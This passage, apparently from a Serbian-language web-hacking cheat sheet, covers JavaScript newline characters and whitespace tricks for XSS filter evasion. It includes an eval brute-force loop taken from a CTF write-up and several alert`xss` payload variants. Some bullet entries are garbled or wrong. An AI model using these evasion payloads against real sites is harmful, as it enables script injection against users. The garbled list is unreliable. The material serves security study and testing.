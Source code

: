 ### Validni JS karakteri za nove linije

U JavaScript-u postoje određeni karakteri koji se koriste za predstavljanje novih linija. Ovi karakteri omogućavaju programerima da formatiraju svoj kod tako da bude čitljiv i organizovan. Evo nekoliko validnih JS karaktera za nove linije:

* &#x20;\- predstavlja novu liniju
* &#x20;\- predstavlja povratak na početak linije
* `\r` - predstavlja kombinaciju povratka na početak linije i nove linije

Ovi karakteri se često koriste prilikom pisanja JavaScript koda kako bi se obezbedila jasnoća i preglednost.

```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10) //0x0a
String.fromCharCode(13) //0x0d
String.fromCharCode(8232) //0xe2 0x80 0xa8
String.fromCharCode(8233) //0xe2 0x80 0xa8

for (let j = 0; j < 65536; j++) {
try {
var cmd = '"aaaaa";'+String.fromCharCode(j) + '-->a.orange.ctf"';
eval(cmd);
} catch(e) {
var err = e.toString().split('\n')[0].split(':')[0];
if (err === 'SyntaxError' || err === "ReferenceError")
continue;
err = e.toString().split('\n')[0]
}
console.log(`[${err}]`,j,cmd);
}
//From: https://balsn.tw/ctf_writeup/20191012-hitconctfquals/#bounty-pl33z
```

### Validni JS razmaci u pozivu funkcije

Kada koristite JavaScript, možete koristiti razmake unutar poziva funkcije kako biste izbjegli detekciju neželjenog koda. Ovo je korisna tehnika za izvršavanje XSS napada. Evo nekoliko primjera kako možete koristiti razmake u pozivu funkcije:

```javascript
alert`xss`
```

```javascript
alert `xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/ `xss`
```
